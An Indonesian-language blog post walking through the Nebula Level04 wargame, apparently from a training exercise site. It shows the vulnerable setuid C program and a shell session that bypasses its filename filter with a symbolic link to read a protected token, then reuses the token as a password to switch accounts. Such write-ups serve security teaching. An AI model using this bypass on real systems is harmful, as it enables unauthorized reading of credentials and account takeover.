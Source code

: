 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-17T03:57:03+00:00"
description = "Security Wargames"
featured = "wlRjyW6I_o.jpg"
featuredalt = "Nebula Level04"
featuredpath = "https://images2.imgbox.com/62/c7"
linktitle = ""
title = "Exploit Exercises - Nebula Level04"
type = "post"

+++
{{< url-link "Level04" "https://exploit-exercises.com/nebula/level04/" "target">}} adalah salah satu tantangan favorit bagi saya dari keseluruhan seri yang ada.

Kita disajikan _source code_ untuk level4.c. Saya menyertakan kodenya di bawah ini untuk referensi lebih cepat:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <fcntl.h>
    
    int main(int argc, char **argv, char **envp)
    {
        char buf[1024];
        int fd, rc;
    
        if(argc == 1) {
            printf("%s [file to read]\n", argv[0]);
            exit(EXIT_FAILURE);
        }
    
        if(strstr(argv[1], "token") != NULL) {
            printf("You may not access '%s'\n", argv[1]);
            exit(EXIT_FAILURE);
        }
    
        fd = open(argv[1], O_RDONLY);
        if(fd == -1) {
            err(EXIT_FAILURE, "Unable to open %s", argv[1]);
        }
    
        rc = read(fd, buf, sizeof(buf));
    
        if(rc == -1) {
            err(EXIT_FAILURE, "Unable to read fd %d", fd);
        }
    
        write(1, buf, rc);
    }

Sekilas saya melihat bahwa masalah ini rumit dan mulai mencari-cari _permission_ dari file, dan lain-lain. Setelah mencoba berkonsentrasi pada _source code_ yang disediakan, saya melihat adanya kesalahan pemrograman yang umum.

Pernyataan kedua jika secara eksplisit menyatakan file yang tidak ingin diakses oleh pemrogram. Karena kode pencocokannya berdasarkan nama kita harus bisa membuat _symbolic link_ untuk menampilkan isi token.

    level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
    level04@nebula:/home/flag04$ ./flag04 /tmp/level04
    06508b5e-8909-4f38-b630-fdb148a848a2
    level04@nebula:/home/flag04$ id
    uid=1005(level04) gid=1005(level04) groups=1005(level04)
    level04@nebula:/home/flag04$ su flag04
    Password:
    sh-4.2$ id
    uid=995(flag04) gid=995(flag04) groups=995(flag04)
    sh-4.2$ getflag
    You have successfully executed getflag on a target account

Dan tadaaa, dengan menghindari filter berbasis nama, kita dapat membaca isi file yang dibatasi.

_Note: saya menggunakan isi token sebagai password untuk su ke akun flag04. Semoga ini membantu!_

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/K5nuQ5QGYKQ?rel=0"></iframe></div></div>